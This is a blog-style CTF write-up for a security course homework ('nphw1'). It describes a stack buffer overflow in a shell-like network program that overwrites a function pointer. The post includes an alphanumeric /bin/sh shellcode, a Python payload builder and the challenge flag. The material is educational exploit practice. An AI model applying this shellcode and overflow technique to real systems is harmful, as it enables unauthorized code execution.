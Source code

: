 ===============
 nphw1 Writeup
===============

:date: 2014-11-12 21:30
:modified: 2014-11-14 02:30
:tags: secprog, ctf, writeup
:category: memo
:slug: nphw1-writeup
:about_author: Bug generator
:email: starbops@gmail.com
:authors: Zespre Schmidt
:summary: Security Programming Homework 2-1

Intelligence Gathering
======================

- There is a vulnerability in piece of code which contains ``strtok()``
- There is a ``call eax`` in the binary
- Because it is an interactive shell program, bad characters are 0x00, 0x0a,
  0x2f (filter out by specific function in the program)

De-complie the binary
=====================

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

.. code-block:: text

    ...
    frame_dummy
    passCmdline
    splitCmdline
    parseArgv
    printEnv
    setEnv
    getResult
    sendResult
    closePipes
    exeCmd
    nextLine
    main
    passPipe
    addPipe
    delPipe
    ...

By doing some observation, I picked up three interesting functions for deeper
inspection: ``main``, ``passCmdline``, ``splitCmdline``, ``exeCmd``.

+-------------------+---------------------------------------+
| Offset of cmdline | Meaning                               |
+===================+=======================================+
| 0                 | pointer of whole command line         |
+-------------------+---------------------------------------+
| 1 - 10000         | pointer of each word                  |
+-------------------+---------------------------------------+
| 10001             | number of words in whole command line |
+-------------------+---------------------------------------+
| 10002 - 11001     | single command, seperated by '|'      |
+-------------------+---------------------------------------+
| 11002             | argc                                  |
+-------------------+---------------------------------------+
| 11003             | not important                         |
+-------------------+---------------------------------------+
| 11004             | stdout                                |
+-------------------+---------------------------------------+
| 11005             | pointer of function printEnv()        |
+-------------------+---------------------------------------+
| 11006             | pointer of string "printenv"          |
+-------------------+---------------------------------------+
| 11007             | pointer of function setEnv()          |
+-------------------+---------------------------------------+

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

Shellcode
=========

The shellcode for execute ``/bin/sh`` is showed following, grab from the
Internet. See the references at the end of this article for more information.

.. code-block:: text

    PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx

Exploitation
============

The first word should be the same as the last word, and the shellcode should be
1004th word. That's all!

.. code-block:: python

    payload = 'a ' * 1003
    payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
    payload += 'a'

Don't forget to append a new line character to fire our payload!

Flag
====

The flag is ``SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}``

References
==========

- `Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69) shellcode`__
- `x86 alphanumeric shellcodeを書いてみる`__

.. __: http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/
.. __: http://inaz2.hatenablog.com/entry/2014/07/11/004655
